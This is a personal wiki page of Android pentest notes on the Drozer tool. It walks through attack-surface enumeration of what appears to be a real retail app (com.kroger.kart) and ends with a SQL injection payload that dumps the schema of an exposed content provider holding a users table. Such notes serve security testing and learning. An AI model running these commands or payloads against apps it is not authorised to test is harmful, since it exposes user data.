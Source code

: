 ```yaml
---
title: Drozer - Tool for dyamic Exploration of Android Apps
description: 
published: true
date: 2023-01-19T20:12:17.668Z
tags: 
editor: markdown
dateCreated: 2023-01-19T19:22:40.756Z
---
```


# Summary

Runs a daemon on the device (doesn't need root, but might be better.)
Can do lots of adb like things.
Explore android specific attack surface and run things (intents providers etc).

Links
https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/drozer-tutorial

https://resources.infosecinstitute.com/topic/android-penetration-tools-walkthrough-series-drozer/
# Display attack surface
```
dz> run app.package.attacksurface com.kroger.kart
Attack Surface:
  10 activities exported
  3 broadcast receivers exported
  1 content providers exported
  1 services exported

```
# Get Activity Info
```
dz> run app.activity.info -a com.kroger.kart
Package: com.kroger.kart
  com.kroger.kart.presentation.view.LoginActivity
    Permission: null
  com.microsoft.identity.client.BrowserTabActivity
    Permission: null
  com.kroger.kart.presentation.view.LaunchActivity
    Permission: null
  com.kroger.kart.presentation.view.Callback
    Permission: null
  com.kroger.kart.presentation.view.Logout
    Permission: null
  com.microsoft.identity.client.CurrentTaskBrowserTabActivity
    Permission: null
  androidx.compose.ui.tooling.PreviewActivity
    Permission: null
  com.okta.oidc.OktaRedirectActivity
    Permission: null
  com.google.firebase.auth.internal.GenericIdpActivity
    Permission: null
  com.google.firebase.auth.internal.RecaptchaActivity
    Permission: null
```

# Run an Activity

# Get Broadcast Information

```
dz> run app.broadcast.info -a com.kroger.kart
Package: com.kroger.kart
  com.kroger.kart.widget.WidgetStoreWalk
    Permission: null
  androidx.work.impl.diagnostics.DiagnosticsReceiver
    Permission: android.permission.DUMP
  androidx.profileinstaller.ProfileInstallReceiver
    Permission: android.permission.DUMP
```

# Get Provider Information
```
dz> run app.provider.info -a com.kroger.kart
Package: com.kroger.kart
  Authority: com.kroger.kart.providers.UserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.kroger.kart.providers.UserContentProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: True
```
# Then get the URIs

```
dz> run scanner.provider.finduris -a com.kroger.kart
Scanning com.kroger.kart...
Unable to Query  content://com.kroger.kart.firebaseperfprovider/
Able to Query    content://com.kroger.kart.providers.UserContentProvider/
Unable to Query  content://com.kroger.kart.firebaseinitprovider
Unable to Query  content://com.kroger.kart.kaf.KafContextAppProvider/
Able to Query    content://com.kroger.kart.providers.UserContentProvider
Unable to Query  content://com.kroger.kart.firebaseperfprovider
Unable to Query  content://com.kroger.kart.kaf.KafContextAppProvider
Unable to Query  content://com.kroger.kart.firebaseinitprovider/
Unable to Query  content://com.kroger.kart.androidx-startup
Unable to Query  content://com.kroger.kart.androidx-startup/

Accessible content URIs:
  content://com.kroger.kart.providers.UserContentProvider
  content://com.kroger.kart.providers.UserContentProvider/

```

# Then see if you can inject into URIs
```
dz> run scanner.provider.injection -a com.kroger.kart
Scanning com.kroger.kart...
Not Vulnerable:
  content://com.kroger.kart.firebaseperfprovider/
  content://com.kroger.kart.firebaseinitprovider
  content://com.kroger.kart.kaf.KafContextAppProvider/
  content://com.kroger.kart.firebaseperfprovider
  content://com.kroger.kart.kaf.KafContextAppProvider
  content://com.kroger.kart.firebaseinitprovider/
  content://com.kroger.kart.androidx-startup
  content://com.kroger.kart.androidx-startup/

Injection in Projection:
  content://com.kroger.kart.providers.UserContentProvider
  content://com.kroger.kart.providers.UserContentProvider/

Injection in Selection:
  content://com.kroger.kart.providers.UserContentProvider
  content://com.kroger.kart.providers.UserContentProvider/
  ```
# Then exploit:
Note you can cause a sql error to figure out where you are in the query
```
dz> run app.provider.query content://com.kroger.kart.providers.UserContentProvider --projection "* from SQLITE_MASTER WHERE type='table';=="
| type  | name             | tbl_name         | rootpage | sql                                                                                                      |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                                              |
| table | users            | users            | 4        | CREATE TABLE users (_id INTEGER PRIMARY KEY AUTOINCREMENT,  euid TEXT NOT NULL,  location TEXT NOT NULL) |
| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                                                   |
```

# Info about Services
```
dz> run app.service.info -a com.kroger.kart
Package: com.kroger.kart
  androidx.work.impl.background.systemjob.SystemJobService
    Permission: android.permission.BIND_JOB_SERVICE
```

# Need to learn to start drozer from adb
adb am start com.mwr.dz:com.mwr.dz.activities.MainActivity
Don't know either PACKAGENAME or Intent yet.  Will fix page.

